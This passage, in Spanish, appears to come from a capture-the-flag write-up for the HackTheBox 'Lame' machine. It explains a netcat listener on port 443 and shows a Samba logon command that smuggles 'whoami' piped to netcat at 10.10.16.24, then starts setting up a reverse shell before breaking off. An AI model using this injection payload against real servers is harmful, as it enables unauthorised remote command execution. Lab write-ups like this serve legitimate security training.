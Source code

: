     - Descripción: Especifica el puerto en el que netcat debe escuchar. En este caso, el puerto 443.

    - Propósito: El puerto 443 es el puerto predeterminado para tráfico HTTPS, aunque en este contexto se está usando simplemente como un puerto para escuchar conexiones entrantes.

Inyectemos el comando:

```Linux
logon "/= ' nohup whoami | nc 10.10.16.24 443 '"
```
![IMG-29](../../../../assets/Lame/29.png)

De esta manera tenemos un muy claro vector de ataque para crear una [reverse shell](https://medium.com/@aytzzz/what-is-a-reverse-shell-9d53f1b4b450) en la fase de post-explotación.

## Post-Explotación

### Acceso Inicial

Obtendremos acceso remoto al objetivo mediante una reverse shell enviada y recibida con netcat.

Comenzamos recibiendo tráfico desde nuestro equipo poniendonos en escucha con netcat:
